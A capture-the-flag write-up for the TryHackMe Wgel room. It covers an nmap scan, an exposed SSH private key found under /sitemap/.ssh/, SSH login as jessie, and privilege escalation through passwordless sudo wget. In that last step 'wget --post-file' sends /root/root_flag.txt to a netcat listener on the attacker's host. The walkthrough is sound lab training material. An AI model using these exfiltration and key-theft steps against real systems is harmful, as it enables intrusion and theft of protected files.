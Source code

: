# [Wgel CTF](https://tryhackme.com/room/wgelctf)

`Machine's IP - 10.10.33.168`

# Reconnaissance and Discovery
So, the first thing was to start out with a simple nmap scan and outputting the results to a log file.

`nmap -sS -sC -sV 10.10.33.168 -Pn > nmap-wgel.log`

# Analyzing Information and Risks


```
Starting Nmap 7.70 ( https://nmap.org ) at 2020-11-18 21:23 Central Standard Time (Mexico)
Nmap scan report for 10.10.33.168
Host is up (0.60s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.68 seconds
```

Realizing that `SSH` was open, I went to the website to see if maybe we can get some credentials or a key. Upon entering `http://10.10.33.168/` I noticed that it was the default starting template for Apache2. The strange thing was that the listing was wrong, look:

```bash
/etc/apache2/
|-- apache2.conf
|       `--  ports.conf
|-- mods-enabled
|       |-- *.load
|       `-- *.conf
|-- conf-enabled
|       `-- *.conf
|-- sites-enabled
|       `-- *.conf


 
          
```

If you've used Apache2 before, you'd know something was wrong, so I viewed the source file and found this:

```
 <!-- Jessie don't forget to udate the webiste -->
```

So, we can guess the user is `Jessie`.

Using dirbuster, I was able to find `http://10.10.33.168/sitemap/`. Here, I decided to try getting an indexing page and stumbled upon `http://10.10.33.168/sitemap/.ssh/` which gave me an `id_rsa`. Quickly, I downloaded the key and prepared myself for SSH login.

First, I renamed the file to match with the user \
`mv id_rsa.txt id_jessie`

Secondly, I changed the permissions of the file \
`chmod 600 id_jessie`

Finally, I got in `ssh -i id_jessie jessie@10.10.33.168` and had a console. 

Once inside, I looked for the `user.txt`.

```bash
jessie@CorpOne:~$ find | grep flag
./Documents/user_flag.txt
jessie@CorpOne:~$ cat ~/Documents/user_flag.txt
********************************
```

I tried to enumerate my permissions after that with `sudo -l` and noticed something strange but interesting

```bash
User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

Once read that, I immediately opened a new tab and went to [GTFOBins](https://gtfobins.github.io/) and searched for `wget`. Here, I was bestowed upon me the following command

```bash
wget --post-file=$LFILE $URL
```

I got another tab in bash open, started a `Netcat` listener

```bash
> nc -lvnp 4445
listening on [any] 4445 ...
```

On my SSH key I ran the following command

```bash
jessie@CorpOne:~$ sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.6.20.112:4445/
--2020-11-19 05:47:41--  http://10.6.20.112:4445/
Connecting to 10.6.20.112:4445... connected.
```

And just like that, I got the `root.txt`

```bash
> nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.6.20.112] from (UNKNOWN) [10.10.33.168] 43532
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.6.20.112:4445
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

********************************
```

## License
[MIT](https://choosealicense.com/licenses/mit/)

